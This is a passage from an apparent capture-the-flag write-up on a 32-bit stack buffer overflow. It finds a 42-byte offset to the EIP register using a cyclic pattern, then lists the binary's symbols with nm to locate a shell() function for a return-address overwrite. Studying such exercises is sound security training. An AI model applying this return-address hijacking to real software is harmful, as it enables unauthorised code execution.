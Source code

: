 Here is the result

```
42
```

So we need to generate 42 characters to arrive to the `eip` pointer, then give it the address we want so it jumbs to it after finishing with the vuln function.

```
cyclic 42
```

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka
```

Next thing to do is looking for the proper address to put in the `eip` pointer to jump to the `shell()` function. And as we are in the static address mode, we can easily extract the pointer of the function, and it won't change under each execution. To do that, we use the `nm` command, which will give us the **addresses of the functions in the binary, between them the `shell()` function** :

```
└─$ nm chall                               
080481cc r __abi_tag
0804c038 B __bss_start
0804c038 b completed.0
0804c030 D __data_start
0804c030 W data_start
08049120 t deregister_tm_clones
08049100 T _dl_relocate_static_pie
080491a0 t __do_global_dtors_aux
0804bf04 d __do_global_dtors_aux_fini_array_entry
0804c034 D __dso_handle
0804bf08 d _DYNAMIC
0804c038 D _edata
0804c03c B _end
         U exit@GLIBC_2.0
08049358 T _fini
0804a000 R _fp_hw
080491d0 t frame_dummy
0804bf00 d __frame_dummy_init_array_entry
0804a220 r __FRAME_END__
         U geteuid@GLIBC_2.0
         U gets@GLIBC_2.0
0804c000 d _GLOBAL_OFFSET_TABLE_
         w __gmon_start__
0804a064 r __GNU_EH_FRAME_HDR
0804923f T Hey
08049000 T _init
0804bf04 d __init_array_end
0804bf00 d __init_array_start
0804a004 R _IO_stdin_used
08049350 T __libc_csu_fini
080492f0 T __libc_csu_init
         U __libc_start_main@GLIBC_2.0
08049278 T main
         U printf@GLIBC_2.0
         U puts@GLIBC_2.0
08049160 t register_tm_clones
         U setbuf@GLIBC_2.0
         U setreuid@GLIBC_2.0
080491d6 T shell
080490c0 T _start
         U stderr@GLIBC_2.0
         U stdin@GLIBC_2.0
         U stdout@GLIBC_2.0
         U system@GLIBC_2.0
```